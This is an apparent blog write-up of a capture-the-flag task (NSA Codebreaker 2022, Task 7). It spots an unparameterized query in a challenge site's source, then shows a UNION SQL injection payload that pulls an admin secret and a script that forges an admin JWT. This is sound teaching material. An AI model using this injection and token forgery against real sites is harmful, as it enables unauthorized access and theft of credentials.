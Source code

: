 ```yaml
---
title: "NSACodebreaker2022 - Task7"
topic: "general"
tags: ["web-hacking", "sql-injection"]
prev: "http://andrewromans.com/posts/nsacodebreaker2022-task6"
next: "http://andrewromans.com/posts/nsacodebreaker2022-task8"
date: 2022-12-20T11:37:37-05:06
---
```


# Table of Contents
1. [Task A1](http://localhost:1313/posts/nsacodebreaker2022-taska1)
2. [Task A2](http://localhost:1313/posts/nsacodebreaker2022-taska2)
3. [Task B1](http://localhost:1313/posts/nsacodebreaker2022-taskb1/)
4. [Task B2](http://localhost:1313/posts/nsacodebreaker2022-taskb2/)
5. [Task 5](http://localhost:1313/posts/nsacodebreaker2022-task5/)
6. [Task 6](http://localhost:1313/posts/nsacodebreaker2022-task6/)
7. [Task 7](#task-7)
	- [Solution](#solution)
8. [Task 8](http://localhost:1313/posts/nsacodebreaker2022-task8/)
9. [Task 9](http://localhost:1313/posts/nsacodebreaker2022-task9/)

## Task 7

- - -
###### With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.

###### Generate a new token value which will allow you to access the ransomware site as an administrator.
- - -

### Solution

Having access to the web server can only take us so far without having unlimited access to all the site has to offer. However, the credentials we uncovered only provide us user access. We will need to somehow generate an admin JWT token, which unfortunately isn't as easy as changing a plain text role value from `user` to `admin`. 

Luckily, we have the source code - so we can see what differentiates an admin from a user. 

The `server.py` script holds the web framework logic that checks if a user is admin before allowing access to the requested area of the web server. The function used to check is `util.check_admin()`. The logic looks like the following:

```python
def is_admin():
	""" Is the logged-in user an admin? """	
	uid = get_uid()
	with userdb() as con:
		query = "SELECT isAdmin FROM Accounts WHERE uid = ?"
		row = con.execute(query, (uid,)).fetchone()
		if row is None:
			return False
		return row[0] == 1 

def check_admin(f):
	""" Call f only if user is an admin """
	if not is_admin():
		return render_template("admininvalid.html")
	return f()
```

It looks like there is a query to a database that holds the information as to whether the `uid` is associated to an `admin` account. We also know that in order to generate a valid JWT token for an admin account - we will need this account's `secret` value as seen by the `generate_token` function:

```python
row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
```

This means if we want to get any of this information we will need to somehow compromise the database which holds the information, and what better way to do that than with sql injection?

Looking around the source code, most of the sql queries are safe and sound but one. Within the `userinfo()` function in `server.py` there is a query to look up information on various users.

```python
infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query
```

And instead of using a parameterized query, denoted by the `?` character; instead this query passing in our user input via a `string` without any input sanitization! This is very dangerous and indeed vulnerable to sql injection, but very lucky for us. 

Playing with the website, I was able to come across the name of an active admin member: `ClassyMenorah`. Since we know the username of this admin, we can craft a special payload to extract the `uid` and `secret`. Unfortunately, however, this `userinfo()` function casts all of our returned strings to integers! This won't work if we want the secret in an ascii readable format!

Luckily, sql provides many functions such as `HEX`, `substr`, `CAST`, and `AS` keywords that can help us out in the process of extracting this information. Piecing together several injection commands like the following:

```
' UNION SELECT uid,LENGTH(secret),CAST(HEX(substr(secret, 20, 22)) AS FLOAT), CAST(HEX(substr(secret, 22, 22)) AS int) FROM Accounts WHERE userName='ClassyMenorah'; -- 
```

Can gives us 90% of the secret key in hex format that we can convert to ascii on our own. However, there are a few characters that gives us way more information that we need. 

In order for me to better test what was going on - I wrote my own script to test what was happening in the backend. Playing with the values I was receiving and their hex form quite a bit. 

* 9223372036854775807 casted as an integer 
* 59346176483058553716736 cased as a float.

Some of you may recognize what is happening here, but it took me longer than I'd like to admit to figure out what was happening. `9223372036854775807` is the maximum signed integer value that can be stored. However - `59346176483058553716736` was not the max float value. Looking closer - I was able to see overlap from previous hex values I was looking at, which completed the process of extracting the admin secret. 

```
6743345A637A6533364D6F304739685938394D59346176483058553231336D46
                           or
             gC4Zcze36Mo0G9hY89MY4avH0XU213mF
```

Adjusting my JWT token generator script from task 6 to change the `uid` and `secret`

```python
import codecs
hex_str = "6743345A637A6533364D6F304739685938394D59346176483058553231336D46"
hex_str = codecs.decode(hex_str, "hex").decode('utf-8')

token = generate_token("45619", "gC4Zcze36Mo0G9hY89MY4avH0XU213mF")
print(f"==== GENERATED TOKEN ====\n\n {token} \n\n")
validate_token(token)
```

This outputs a valid JWT admin token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjExNjg4MzYsImV4cCI6MTY2Mzc2MDgzNiwidWlkIjoiNDU2MTkiLCJzZWMiOiJnQzRaY3plMzZNbzBHOWhZODlNWTRhdkgwWFUyMTNtRiJ9.i7JBnO0WIAbX4uwjKfkQb0urmh5xl5CoIqZfexfo8bA


{'iat': 1661168836, 'exp': 1663760836, 'uid': '45619', 'sec': 'gC4Zcze36Mo0G9hY89MY4avH0XU213mF'}
```

The correct answer:

The cookie you generate at the time, which for my case was:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjExNjg4MzYsImV4cCI6MTY2Mzc2MDgzNiwidWlkIjoiNDU2MTkiLCJzZWMiOiJnQzRaY3plMzZNbzBHOWhZODlNWTRhdkgwWFUyMTNtRiJ9.i7JBnO0WIAbX4uwjKfkQb0urmh5xl5CoIqZfexfo8bA`

![Task 7 Badge](/posts/badge7.png "Task 7 Badge")

- - -